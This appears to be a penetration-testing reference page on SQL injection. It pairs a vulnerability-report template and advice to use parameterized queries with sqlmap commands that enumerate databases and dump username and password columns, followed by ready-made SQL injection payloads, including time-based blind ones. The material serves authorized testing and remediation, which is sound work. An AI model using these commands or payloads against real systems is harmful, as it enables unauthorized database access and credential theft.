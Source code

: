 ### SQL Injection

| Vulnerability          | SQL Injection                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
|:---------------------- |:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Severity**           | **HIGH**                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| **Affected URL**       | <insert the affected url\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
| **Tools**              | Burp Suite, [SQLmap](https://github.com/gh1mau/vapt/blob/main/poc/sql_injection.md#sqlmap)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |
| **Techniques/ Method** | URL Fuzzing, Parameter Tampering                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
| **Proof of Concept**   | <insert POC screenshot\(s\)>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| **Payload\(s\)**       | [List of possible payload](https://github.com/gh1mau/vapt/blob/main/poc/sql_injection.md#possible-payloads)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                |
| **Description**        | SQL injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements that control a web application's database server.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| **Impact**             | An attacker can use SQL injection it to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                    |
| **CVE/CWE/OSVDB**      | CWE-89                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                     |
| **Recommendation**     | **Use parameterized queries when dealing with SQL queries that contains user input. Parameterized queries allows the database to understand which parts of the SQL query should be considered as user input, therefore solving SQL injection.**<br/><br/>In order for an SQL injection attack to take place, the vulnerable website needs to directly include user input within an SQL statement. An attacker can then insert a payload that will be included as part of the SQL query and run against the database server.<br/>Parameterized queries are simple to write and understand while forcing a developer to define the entire SQL statement before hand, using placeholders for the actual variables within that statement. A developer would then pass in each parameter to the query afer the SQL statement is defined, allowing the database to be able to distinguish between the SQL command and data inputted by a user. If SQL commands are inputted by an attacker, the parameterized query would treat the input as a string as opposed to an SQL command.<br/>Application developers should avoid sanitizing their input by means of escaping or removing special characters (several encoding tricks an attacker could leverage to bypass such protections) and stick to using parameterized queries in order to avoid SQL injection vulnerabilities. |
| References             | [SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)<br/>[Bobby Tables: A guide to preventing SQL injection](https://bobby-tables.com/)<br/>[CWE-89: Improper Neutralization of Special Elements used in an SQL Command (SQL Injection)](https://cwe.mitre.org/data/definitions/89.html)                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                 |

---

### Tools :

#### SQLmap

Reference: [Usage · sqlmapproject/sqlmap Wiki · GitHub](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

```bash
# crawl and pipe to proxy(burp)
$ sqlmap -u "http://localhost" --forms --batch --crawl=10 --level=5 --risk=3
$ sqlmap -r myapps --proxy=http://127.0.0.1:8080 --random-agent --level=5 --risk=3

```

```bash
# time based , mysql dbms
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbms=mysql --technique=T

# enumeration(list out databases):
$ sqlmap -r myapps --random-agent --level=5 --risk=3 --dbs

# enumeration(list out tables from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db --tables

# enumeration(list out columns from sample_table from sample_db):
sqlmap -r myapps --random-agent --level=5 --risk=3 -D sample_db -T sample_table --columns

# enumeration(dump data from specific columns (username, password):
sqlmap -r myapps --random-agent --risk=3 -D sample_db -T sample_table -C username, password --dump
```

---

### Possible Payloads

```sql
-1' OR 3*2*1=6 AND 000666=000666 --

# time-based blind
5555' AND (SELECT 3841 FROM (SELECT(SLEEP(5)))BQTt)-- 

OfoO'||(SELECT 0x77416d57 FROM DUAL WHERE 7899=7899 AND (SELECT 1651 FROM (SELECT(SLEEP(5)))yxfO))
```
